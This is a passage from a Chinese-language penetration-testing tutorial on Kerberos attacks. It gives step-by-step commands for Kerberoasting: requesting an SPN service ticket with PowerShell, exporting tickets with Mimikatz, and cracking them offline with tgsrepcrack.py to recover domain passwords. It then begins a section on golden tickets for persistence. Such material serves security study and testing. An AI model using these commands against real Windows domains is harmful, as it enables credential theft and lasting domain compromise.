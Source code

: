 

![image-20210812191342159](../域协议/Kerberos协议.assets/image-20210812191342159.png)



**2.请求服务获取TGS**

​	攻击者在内网目标机上利用PoweShell脚本来实现特定的SPN请求服务票据，执行以下命令即可。其中<服务名称>指的是第一步中所列出的SPN服务，例如我们使用kadmin/changepw来作为测试，那么我们在最后需要加上kadmin/changepw即可。

```
	Add-Type -AssemblyName System.IdentityModel

​	New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<服务名称>"
```

![image-20210812191604380](../域协议/Kerberos协议.assets/image-20210812191604380.png)



3.**导出服务票据**

攻击者在请求完对应的服务票据后，可以利用Mimikatz来将票据进行导出，除了Mimikatz外还有一些其他的工具也可以实现这个目的，例如PowerShell、Empire等，如果是要使用Mimikatz的话需要执行以下命令即可

```
mimikatz # kerberos::list /export
```

![image-20210812192040969](../域协议/Kerberos协议.assets/image-20210812192040969.png)











4.**离线爆破密码**

执行该脚本目录下的tgsrepcrack.py在构造一份用来爆破的密码字典，执行爆破即可。可以看到如果成功破解了kerberos票据会把域账户的明文密码显示出来

```
python tgsrepcrack.py pass.txt "saved  to file字段"
```

![image-20210812192904143](../域协议/Kerberos协议.assets/image-20210812192904143.png)





### 黄金票据(TGT)

使用黄金票据做权限维持：

- 能获取到KRBTGT账户的sid值和哈希值
- 做权限维持时KRBTGT账户的密码很长时间不会修改

黄金票据的构造过程需要同DC交互


